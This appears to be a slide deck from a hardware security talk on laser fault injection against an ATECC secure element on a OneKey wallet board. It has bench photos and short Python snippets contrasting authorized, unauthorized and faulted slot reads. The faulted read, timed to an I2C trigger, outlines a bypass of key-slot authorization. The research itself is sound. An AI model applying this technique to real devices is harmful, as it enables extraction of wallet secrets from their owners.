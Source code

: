 

</div>

----

# The Bench

<div style="display:flex; align-items:end; margin-top: auto; margin-bottom: auto;">

<figure style="display:flex; align-items:center; flex-direction:column; flex:auto">
<div style="display:flex; flex-direction:row; gap:1cm;">
<img src="img/laser-bench.png" alt="Laser Bench" style="height:10cm;">
</div>
<figcaption style="text-align:center; color:rgb(106,125,126)">Laser Bench</figcaption>
</figure>

<figure style="display:flex; align-items:center; flex-direction:column; flex:auto">
<div style="display:flex; flex-direction:row; gap:1cm;">
<img src="img/onekey-daughter.png" alt="Daughter Board" style="height:10cm;">
</div>
<figcaption style="text-align:center; color:rgb(106,125,126)">Daughter Board</figcaption>
</figure>	
</div>

----

# The Attack

<div style="--color-prettylights-syntax-comment:green;">

```python
# Authorized request
atecc.nonce()
atecc.gen_dig(1, atecc.KEY_SLOT1)
atecc.read(slot=6) ^ atecc.temp_key
# SUCCESS
```
</div>

<div style="--color-prettylights-syntax-comment:firebrick;">

```python
# Unauthorized request
atecc.nonce()
atecc.gen_dig(14, atecc.KEY_SLOT14)
atecc.read(slot=6) ^ atecc.temp_key 
# EXECUTION_ERROR
```
</div>

<div style="--color-prettylights-syntax-comment:orange;">

```python
# Faulted request
atecc.nonce()
atecc.gen_dig(14, atecc.KEY_SLOT14)
atecc.read(slot=6, trigger=I2CTrigger.END.value) ^ atecc.temp_key
# EXECUTION_ERROR / TIMEOUT / SUCCESS / ...
```
</div>

---